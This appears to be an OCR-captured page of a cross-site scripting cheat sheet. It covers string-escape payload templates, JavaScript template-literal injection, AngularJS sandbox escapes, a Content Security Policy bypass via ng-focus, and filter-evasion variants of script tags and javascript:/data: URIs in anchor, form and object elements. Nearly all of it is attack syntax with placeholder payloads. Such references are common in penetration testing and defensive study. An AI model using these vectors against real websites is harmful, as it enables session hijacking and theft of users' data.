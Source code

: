 Escape from strings with angled brackets encoded:
```html
'-<payload>-'
';<payload>//
```

Evade filters:
```html
\';<...>//  # Double quote filter
onerror=<func>;throw <arg>  # Assign to error event.
&apos;-<...>-&apos;  # HTML escaped quotes
```

#### JS Template Literals
Inject `${<...>}` in the string:
```javascript
`Welcome, ${user.displayName}.`;
```

#### AngularJS Sandbox Escape
Overwrite the charAt method to join characters:
```javascript
toString().constructor.prototype.charAt%3d[].join;
$eval('x=<...>')
[1]|orderBy:toString().constructor.fromCharCode(120 61 <charcode payload>)=1  # 120 61 is for 'x='
```

Content Security Policy Bypass:
```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],<...>)'">
```

## Filter Evasion

### Common Techniques
#### Script Tag
Weak tag parsing bypass:
```html
<ScRiPt>...</sCrIpT>
<ScRiPt>...  # Unclosed tags
<script/[gibberish]>...<script>
<script [\n\r\t]>...</script>
<script [\x00 \x0D \x0A]>... </script [\x00 \x0D \x0A]>
<scr<script>ipt>...</scr<script>ipt>
```

Common alternative tags (require user interaction):
```html
<a href="javascript:[code]">show</a>
<a href="data:text/html;base64,[base64 payload]">show</a>
<form action="javascript:[code]><button>Click me</button></form>
<form id="f1"></form><button form="x" formaction="javascript:[code]">Click me</button>
<object data="javascript:[code]">
<object data="text/html:<script>[code]</script>">
<object data="data:text/html;base64,[base64 payload]">
```

